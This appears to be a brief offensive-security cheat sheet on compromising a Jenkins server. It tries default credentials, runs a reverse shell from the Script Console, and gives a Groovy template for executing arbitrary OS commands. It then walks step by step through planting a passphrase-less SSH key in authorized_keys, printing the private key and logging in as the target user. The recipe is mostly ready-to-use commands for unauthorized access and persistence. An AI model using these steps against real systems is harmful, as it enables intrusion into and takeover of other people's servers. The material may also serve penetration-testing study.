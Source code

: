 ## Requirements: Access to a jenkins dashboard and script console

## Steps:

#### 1) Authenticate to the Jenkins instance. Try common credentials like: (jenkins:jenkins)

#### 2) Dashboard

#### 3) Manage Jenkins

#### 4) Script Console

#### 5) Setup listener

#### 6) Run a groovy reverse shell script

# Alternate Method: Create SSH Key-pair for SSH Access (Requires SSH port being open, and use this in case the reverse shell doesn't work)

## Command running template:

    def proc = "id".execute() (Replace the "id" value with any OS Command)

    def b = new StringBuffer()

    proc.consumeProcessErrorStream(b)

    println proc.text

    println b.toString()

## Command Steps:

#### 1) Show working directory

    pwd 

#### 2) Verify the home location of our user

    env 

#### 3) Build an .ssh directory

    mkdir .ssh 

#### 4) Create SSH keypair for our user. THE PASSPHRASE IS: ""

    ssh-keygen -t rsa -b 4096 -N \"\" -f .ssh/id_rsa 

#### 5) Copy the public SSH key to create the "authorized_keys" file

    cp .ssh/id_rsa.pub .ssh/authorized_keys 

#### 6) Print the private key to copy locally

    cat .ssh/id_rsa 

#### 7) Attacker: Give the correct permissions to use the key

    chmod 600 id_rsa 

#### 8) Attacker: SSH into the target user using the key

    ssh -i id_rsa USER@IP 
